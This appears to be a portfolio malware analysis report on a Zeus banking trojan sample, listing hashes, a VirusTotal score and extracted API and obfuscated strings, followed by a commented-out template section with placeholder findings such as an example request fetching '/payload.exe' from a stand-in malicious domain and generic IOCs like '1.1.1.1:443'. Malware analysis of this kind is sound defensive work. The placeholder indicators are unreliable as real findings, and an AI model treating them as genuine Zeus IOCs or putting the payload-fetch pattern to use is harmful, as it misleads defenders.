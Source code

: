 # Malware Analysis Report — Zeus Banking Trojan  

**A Practical Showcase of Cybersecurity Skills**  

---

## Overview  
**Malware Sample:** `invoice_2318362983713_823931342io.pdf.exe`  
**Source:** [theZoo](https://github.com/ytisf/theZoo)  

**Goal:**  
Analyze the malware's static/dynamic behavior, identify capabilities, and document findings.  

**Key Skills Demonstrated:**  
- Static & Dynamic Analysis  
- Reverse Engineering Basics  
- Threat Hunting & IOC Extraction  
- Professional Reporting  

**Tools Used:**  
- **Infrastructure:** FLARE-VM, Remnux, Proxmox, INetSim  
- **Static Analysis:** FLOSS, PEview, PE-bear, pestudio, CyberChef, capa, cutter  
- **Dynamic Analysis:** Wireshark, Procmon, TCPview  

---

## Key Findings  

### 1. Static Analysis  
- **File Hashes:**  
  - SHA-256: `69e966e730557fde8fd84317cdef1ece00a8bb3470c0b58f3231e170168af169`  
  - MD5: `ea039a854d20d7734c5add48f1a51c34`
  - **VirusTotal Score:** Detected by [63/72] engines ([screenshot](https://github.com/sapan322/Raman-Cybersecurity-Portfolio/blob/main/Malware%20Development%20%26%20Analysis/Malware%20Analysis/Reports/screenshots/%235_Zeus/1.%20VT%20Scan.png)).  

- **Suspicious Strings ([FLOSS/strings](https://github.com/sapan322/Raman-Cybersecurity-Portfolio/blob/main/Malware%20Development%20&%20Analysis/Malware%20Analysis/Reports/txt_files/%235_Zeus/Strings.txt)):**
  - API calls:  
  ```
  AllowSetForegroundWindow
  DdeQueryNextServer
  EnumClipboardFormats
  FindNextFile
  GetAsyncKeyState
  GetClipboardData
  GetClipboardOwner
  GetConsoleAliasExesLength
  GetCurrentThread
  GetEnvironmentVariable
  GlobalAddAtom
  PathRenameExtension
  VirtualQueryEx
  VkKeyScan
  WinExec
  WriteFile
  ```

  - Obfuscated function names (API function name embedded in DLL):
  ```
    WhopTestrangrapsdebsTzarNipaYins
  KERNEL32.GetWindowsDirectory
  
  WainMeekPinyWonkpooflaudsir
  SHLWAPI.PathParseIconLocation
  
  VeerCrawFlateel
  USER32.GetUpdateRgn
  
  Vavsrubepodsjadebrooli
  SHLWAPI.PathRemoveArgs
  ```
<!--

- **PE Analysis (PEview/PE-bear):**  
  - **Packed:** Yes/No  
  - **Compilation Timestamp:** [YYYY/MM/DD]  
  - **Notable Imports:**  
    - `CreateFileA`, `VirtualAlloc`, `URLDownloadToFileW`, `socket`  
  - **Sections:** List anomalies (e.g., mismatched section names, high entropy).  

---

### 2. Dynamic Analysis  
- **Observed Behavior:**  
  - File Creation: `C:\Users\Public\Documents\[malicious_file.exe]`  
  - Network Activity: HTTP requests to `malicious-domain.local`, DNS queries.  
  - Persistence: Startup folder modification, registry keys.  
  - Self-deletion/Evasion: `Del /f /q "%s"`, anti-debugging checks.  

- **Network Indicators (Wireshark):**  
  - Example:  
    ```http
    GET /payload.exe HTTP/1.1
    Host: malicious-domain.local
    ```  
  - TCP/UDP Connections: Ports, IP addresses, protocol usage (e.g., TLS on 443).  

- **Host Indicators (Procmon/TCPview):**  
  - Process Injection: e.g., `powershell.exe` spawned with encoded commands.  
  - Registry Modifications: Specific keys altered/created.  

---

## Tools & Techniques  
- **Static Analysis:**  
  - FLOSS: Extracted obfuscated strings.  
  - CyberChef: Decoded Base64/PowerShell scripts.  
- **Dynamic Analysis:**  
  - INetSim: Simulated C2 server responses.  
  - Netcat: Captured reverse shell sessions.  

---

## Screenshots  

| **Tool**   | **Description**                          |  
|------------|------------------------------------------|  
| ![VirusTotal](link) | VirusTotal detection results |  
| ![PEview](link) | PEview analysis showing imports/sections |  
| ![Wireshark](link) | Network traffic capture of C2 communication |  
| ![Procmon](link) | File/process activity logs |  

---

## Indicators of Compromise (IOCs)  
- **File IOCs:**  
  - Paths: `C:\Users\Public\Documents\[malware_artifact.exe]`  
  - Hashes: SHA-256, MD5 (listed above).  
- **Network IOCs:**  
  - Domains: `malicious-domain.local`  
  - IPs/Ports: `1.1.1.1:443`  
- **Host IOCs:**  
  - Processes: `powershell.exe` with suspicious arguments.  
  - Registry Keys: `HKCU\Software\Malware`.  

---

## Key Takeaways  
- **Skill Development:**  
  - Improved analysis of [specific technique, e.g., encoded PowerShell].  
  - Mastered [tool name] for [purpose, e.g., network simulation].  
- **Challenges Overcome:**  
  - Troubleshooting [specific issue, e.g., DNS spoofing].  
  - Decoding [obfuscation method, e.g., XOR-encrypted strings].  
- **Real-World Relevance:**  
  - Techniques mirror real-world threats like [APT group/tactic].  

---

## For Employers  
This report demonstrates my ability to:  
- Analyze malware in a controlled lab environment.  
- Extract actionable IOCs for threat intelligence.  
- Document findings clearly for technical/non-technical audiences.  

---

**Explore my other projects:** [GitHub Portfolio]()

-->
